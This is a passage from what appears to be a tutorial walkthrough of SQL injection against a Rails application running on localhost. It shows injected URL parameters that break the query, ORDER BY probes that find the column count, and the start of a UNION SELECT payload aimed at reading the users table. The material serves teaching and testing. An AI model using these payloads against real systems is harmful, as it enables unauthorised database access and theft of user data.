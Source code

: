And we did it we break it :D That means our single quote is inserted successfully on the query!
But how can we use that? There are many ways, for now, we will use it to select values from other tables like the users table.

But how can we select from other tables while the query is selecting from the posts table?
Doesn't that ring a bell?

In SQL we have something called UNION which enables us to combine the results of select queries with just two rules
* Select the same number of columns.
* Select the same data types ordered.

We will use the `order by` keyword to discover the number of columns on the posts table.
`https://localhost:3000/posts?category=news’) order by 1--`

That created this query 
`SELECT * FROM some_table WHERE (category = ‘news’) order by 1--’)`


Order by 1 means order by the first column and we commented the last `‘)` with double dashes `--`
So the query now is 
`SELECT * FROM some_table WHERE (category = ‘news’) order by 1`

We can use order by and increment the number until the application crashes. If the application crashed on order by 9 that means we have 8 columns

Let’s now try.
`https://localhost:3000/posts?category=news’) order by 1--`
Works fine

`https://localhost:3000/posts?category=news’) order by 5--`
Works fine

`https://localhost:3000/posts?category=news’) order by 10--`
Crashed

`https://localhost:3000/posts?category=news’) order by 7--`
Crashed

`https://localhost:3000/posts?category=news’) order by 6--`
Works fine

That means we have 6 columns of the current table that the developer is selecting from.

Now the interesting part, let’s write our union select.

`https://localhost:3000/posts?category=news’) union select null,null,null,null,null,null--`


!["Union select"](/assets/images/rails-sqli/image4.png "Union select")
